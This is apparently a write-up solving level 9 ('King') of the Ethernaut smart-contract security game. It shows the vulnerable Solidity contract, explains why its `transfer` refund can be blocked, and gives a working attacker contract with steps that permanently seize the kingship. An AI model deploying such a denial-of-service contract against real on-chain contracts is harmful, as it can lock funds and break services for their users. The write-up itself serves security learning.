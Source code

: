 # Level 9: King

This is the level 9 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity contract [receive](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function
- [transfer](https://docs.soliditylang.org/en/v0.8.10/types.html#members-of-addresses) method of addresses

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

`player` has to prevent the current level from reclaiming the kingship after instance is submitted.

Kingship is switched in `receive` function i.e. when a specific value is sent to `King`. So, we'll have to somehow prevent execution of `receive`.

The key thing to notice is that previous `king` is sent back `msg.value` using `transfer`. But what if this previous `king` was a contract and it didn't implement any `receive` or `fallback`? It won't be able to receive any value. And because of this `transfer` stops execution with an exception (unlike `send`). Gotcha!

Let's make a contract `ForeverKing` that has NO `receive` or `fallback`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForeverKing {
    function claimKingship(address payable _to) public payable {
        (bool sent, ) = _to.call.value(msg.value)("");
        require(sent, "Failed to send value!");
    }
}
```

Query the current prize:

```javascript
await contract.prize().then(v => v.toString())

// Output: '1000000000000000'
```

So at least `1000000000000000` wei is required to claim kingship.

Get your instance's address, so that `ForeverKing` can send value to it:

```javascript
contract.address

// Output: <your-instance-address>
```

Call `claimKingship` of `ForeverKing` with param `<your-instance-address>` and set the amount `1000000000000000` wei as value in Remix. That will make `ForeverKing` contract as king.

Submit the instance. Upon submitting the level will try to reclaim kingship through `receive` fallback. However, it will fail.

This is because upon reaching line:
```
king.transfer(msg.value);
```
exception would occur because `king` (i.e. deployed `ForeverKing` contract) has no fallback functions.

Level cleared.

Bonus thing to note here is that in `ForeverKing`'s `claimKingship`, `call` is used specifically. `transfer` or `send` will fail because of limited 2300 gas stipend. `receive` of `King` would require more than 2300 gas to execute successfully.

Of course, there are probably other ways too to prevent a successful `receive` execution.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
